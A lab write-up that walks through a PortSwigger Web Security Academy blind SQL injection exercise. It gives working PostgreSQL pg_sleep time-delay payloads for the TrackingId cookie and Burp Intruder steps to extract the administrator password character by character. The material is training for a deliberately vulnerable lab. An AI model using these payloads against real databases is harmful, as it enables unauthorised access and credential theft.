 # SQL Injection Lab 15 - Blind SQL injection with time delays and information retrieval

## Manual Solution

### 1. Access the Lab
- Access the Web Security Academy lab.

### 2. Initial Setup
- Open Burp Suite and intercept a GET request to the website.
- Send the captured request to the Repeater for testing.

### 3. Add the time delay payload to the trackingId parameter
- TrackingId=a`' || (SELECT pg_sleep(10))--`
- pg_sleep(10) is a function that sleeps for 10 seconds.
- || is the string concatenation operator in PostgreSQL that allows chaining multiple SQL expressions

### 4. Add the information retrieval payload to the trackingId parameter
- TrackingId=a`' || (SELECT CASE WHEN EXISTS (SELECT username FROM users WHERE username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END) --`
- This payload checks if the username 'administrator' exists in the users table.

### 5. Determine the password length
- Add trackingID parameter: TrackingId=a`' || (SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username = 'administrator') < 1 THEN pg_sleep(10) ELSE pg_sleep(0) END) -- `
- Use Intruder with:
    * Payload position: `1`
    * Payload type: Numbers (1-60)
- You can analyze the response to determine the password length.

### 6. Append the trackingId parameter to the request
- TrackingId=a`' OR (SELECT CASE WHEN (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a' THEN pg_sleep(10) ELSE pg_sleep(0) END) --` 
- Then send the request to the intruder.
     * First position: `SUBSTRING(password,[position],1)`
       - Payload type: Numbers (1 to password length)
     * Second position: Character to test
       - Payload type: Brute forcer (a-z, 0-9)


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_15.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

